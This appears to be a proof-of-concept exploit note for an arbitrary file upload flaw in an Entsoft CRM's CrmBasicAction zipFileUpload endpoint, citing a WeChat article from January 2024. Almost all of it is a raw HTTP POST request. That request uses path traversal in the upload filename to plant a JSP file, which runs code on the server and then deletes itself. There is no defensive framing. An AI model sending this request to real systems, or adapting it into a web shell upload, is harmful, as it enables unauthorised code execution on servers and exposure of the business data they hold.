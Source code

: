 # entsoft_CrmBasicAction_fileupload

from: https://mp.weixin.qq.com/s/CZXiKWOoPT3MYg70al7NiQ
2024/1/22 @2 

```
POST /entsoft/CrmBasicAction.entcrm?method=zipFileUpload&c_transModel=old HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.2657.7 Safari/537.36
Content-Length: 267
Accept-Encoding: gzip
Connection: close
Content-Type: multipart/form-data; boundary=0rwysvgvy7rxv790mpju

--0rwysvgvy7rxv790mpju
Content-Disposition: form-data; name="file"; filename="../../mqh8qxe3cy.jsp"
Content-Type: application/zip

<% out.println(111*111);new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
--0rwysvgvy7rxv790mpju--

```
